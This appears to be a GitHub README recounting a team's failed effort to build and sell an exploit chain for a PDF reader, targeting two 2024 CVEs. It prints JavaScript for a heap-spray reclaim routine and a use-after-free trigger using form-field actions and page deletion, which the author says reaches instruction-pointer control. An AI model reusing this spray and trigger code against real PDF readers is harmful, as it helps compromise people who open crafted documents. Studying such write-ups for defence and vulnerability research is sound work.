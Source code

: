 # HackerLife.exe
Write up about an exploit  chain failed to be fully weaponised and experience when trying to tryin to sell your first nday.

So what this story about ? Our quote on qute "life experience in 2025 as young security researcher trying to make in in a ever changing and compilated environment". When 2025 hit some even happened in my life which propmted me to try to somehow make some cash. Unf. to this day this was never the case since i faile misserably as you'll see. Such the team decided to try to utilize our skills. We were contacted by a person on a ssn. When this person reach us they presented themselves as an upcoming start-up which was in cybersecurity from a part of the world this country being part of mnna, so a nato friend(tring not to leave to many details about this person as they are irrelevant anyway). They reached us because they were looking for a person to help imrpove their product a metasploit preium framework sorts of, so basically they were in need of ndays for their framework. To which we replyed happly that we will help again a certain ammount of money.(again irrelevant as still the transaction never came to be). Such we propposed a series of potentials cve we tought we could use to produce an exploit in a month and a-half. you can take a look at the proposed product here.[catalogue_final.pdf](https://github.com/user-attachments/files/19785140/catalogue_final.pdf) . Anyway here comes the first important lesson for youngsters who wanna dabble in cyber. When choosing a cve do take like 3-4 weeks to review the cve prior to starting the research. In the said catalogue you'll be able to find that one of the exploits was a chain , a pdf one.... We looked briefly only at the descriptions ran the provided poc once or twice and took a look at what cwe was and decided that hey we might be able to turn this into a fully weaponsied exploit. We couldn't be further from the truth.
Becasue sometimes life happens i had an exam to pass and we decided that we will get started on working on the actual exploit on 20th of february.
20th of february comes and we start working on the exploit. We start with something "relatively easy"(please do note the sarcasm), we start wtih CVE-2024-25648. But before we even got started working on that we started to try to understand the structure of pdfs or better said just get a little overview into them as you'll see later in the document we'd have to crash a "propper document" with different actions that were triggered when certain events happened. Such we can give a shoutout to ange albertini for documenting this shit properly. Here are the resouces we used to understand the structure of pdf https://www.youtube.com/watch?v=q6KgFezu8tw , https://www.youtube.com/watch?v=8g6G96nn7Mo , https://www.youtube.com/live/xZPK04a5ltc . Why is even that relevant ? Honestly i forgot but we decided that for this chain one part of the exploit will run in background whenever you open the pdf and the second part whenever you close it. Ideely the exploit was supposed to exploit CVE-2024-25648 when closed and CVE-2024-25575 and opened. To break it down in order for us to be able to create a precise memory layout for the uaf precise exploitation we needed and info-leak for computing addresses for ROPgadgets. Such the flow of the exploit would have been: type conf ->infoleak --> gc to clear the layout of heap --> spray precise -->uaf -->eip control -8 --> stackpivot -->ropchiain --> sc --> pop calc.exe . At the current stage you only have the uaf and heap spray  and theoretically(not tested) 2 proposed ropchains. Now withouth going too much into details one crucial part of any uaf exploitation is obviously an "allocator primitive". What is that ? Simply put something that allows you to have control over the content and size you desire to allocate. Now we were lucky enough that there were other people who did some reascher on this topic. Such we used https://hacksys.io/blogs/foxit-reader-uaf-rce-jit-spraying-cve-2022-28672#jit-spraying-to-rescue-bypassing-dep-aslr-at-once as a starting base. So we knew we had to start our research based on something like 
function reclaim(size, count){
3    for (var i = 0; i < count; i++) {
4        sprayArr[i] = new SharedArrayBuffer(size);
5        var rop = new DataView(sprayArr[i]);
6
7        // control value for - call dword ptr [eax+74h]
8        // first dword is pointer to the shellcode
9        rop.setUint32(0, 0x41414141);
10
11        for (var j = 4; j < rop.byteLength/4; j+=4) {
12            rop.setUint32(j, 0x42424242);
13        }
14    }
15} but we didnt know what to do exactly. So we went back read the advisory and than tried to find the size of vulnerable object. How did we do that ? honestly by pure luck. We had some hooks inserted into RlptFreeHeap Math.atan, Math.sin and finally RtlAllocateHeap.(sorry they are junking during the research we somehow lost them). Insert picture here with trace of objects. So after looking for some pattern in memory allocation we concluded that the size of vulnerable object was 0x70. Now what we did further was to try to reclaim the object.Generally speaking when exploiting uaf there are 2 prerequisite for you to controll said object:1. know the size and 2.be able to place a newly allocation in between the free and reuse, and that's what we did. As you can see 
function uaf() { 
  // prepare heap
  var count = 1000;
  var tArr = [];
  
  start("enabling the heap hook");
  app.activeDocs[0].addField('aaaa', "combobox", 2, [13,8,0,19] ) ;
  
  getField('aaaa').setAction("Format",'delete_pages();');
 
  app.activeDocs[0].addField('aaaa', "combobox", 0, [13,8,0,19] ) ;

  end("disabling the heap hook");
}

function delete_pages() {
  app.activeDocs[0].deletePages();
  //reclaim(theSize,0x10000);

  reclaim(theSize,0x300,sprayArr2);

  app.activeDocs[0].deletePages();
  reclaim(theSize,0x300,sprayArr2);

}

we place in between the deltepages which what to see delete stuff , we put re allocation of our said object. And lord behold inser image of 41414141 EIP control
